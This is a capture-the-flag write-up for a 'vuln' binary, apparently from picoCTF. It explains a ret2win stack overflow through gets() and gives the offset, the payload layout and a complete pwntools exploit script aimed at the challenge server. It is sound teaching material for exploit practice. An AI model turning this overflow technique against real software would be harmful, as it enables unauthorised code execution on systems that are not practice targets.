

## 🏴 Challenge Write-Up: `vuln` Binary – Ret2win Exploit

### 🔍 Challenge Overview

We are given a 32-bit binary (`vuln`) with the following properties:

* Contains a vulnerable function: `gets()` (no bounds checking).
* Contains a hidden `win()` function that prints the contents of `flag.txt`, but only **if** given the correct arguments:

  ```c
  if (arg1 != 0xCAFEF00D)
      return;
  if (arg2 != 0xF00DF00D)
      return;
  ```
* We must **overflow the buffer**, **overwrite the return address**, and **call `win()`** with the correct arguments to retrieve the flag.

---

### 🔧 Binary Analysis

#### Protections:

```bash
checksec vuln
```

```
Arch:     i386-32-little
Canary:   No
NX:       Enabled
PIE:      No
RELRO:    Partial
```

* No stack canaries → buffer overflow possible.
* NX enabled → we cannot inject shellcode, so we use **ret2win**.
* No PIE → addresses are static and can be extracted directly.

---

### 📄 Source Code Summary

The vulnerable code:

```c
void vuln(){
  char buf[BUFSIZE];       // 100 bytes
  gets(buf);               // Vulnerable input
  puts(buf);               // Echo
}
```

And the target:

```c
void win(unsigned int arg1, unsigned int arg2) {
  ...
  if (arg1 != 0xCAFEF00D) return;
  if (arg2 != 0xF00DF00D) return;
  printf(buf);  // Prints the flag
}
```

Our goal is to:

1. Overflow `buf` in `vuln()`.
2. Overwrite the saved return address to jump to `win()`.
3. Provide the correct arguments in the right place (stack).

---

### 🧠 Exploitation Plan

#### 1. Find Offset:

Using cyclic patterns or trial-and-error, we determine the overflow offset:

```python
offset = 112
```

#### 2. Build Payload:

```python
payload = b"A" * offset           # Fills buffer + saved EBP
payload += p32(win_addr)          # Overwrites return address with address of win()
payload += b"B" * 4               # Filler for win()'s return address
payload += p32(arg1)              # First argument
payload += p32(arg2)              # Second argument
```

Stack after the overflow:

```
[... buffer ...][ret addr → win()][ret addr for win()][arg1][arg2]
```

---

### 💥 Final Exploit Script

```python
from pwn import *

DEBUG = False
HOST = 'saturn.picoctf.net'
PORT = 56954

elf = context.binary = ELF('./vuln')
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'i386'
context.log_level = 'debug'

offset = 112
win_addr = elf.symbols['win']
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

payload = b"A" * offset
payload += p32(win_addr)
payload += b"B" * 4
payload += p32(arg1)
payload += p32(arg2)

p.sendlineafter(b"Please enter your string:", payload)
p.interactive()
```

---

### 🎯 Outcome



---

### 🧪 Bonus (Local Testing Tips)

If you want to test locally, create a `flag.txt`:

```bash
echo "picoCTF{test_flag_here}" > flag.txt
```

---

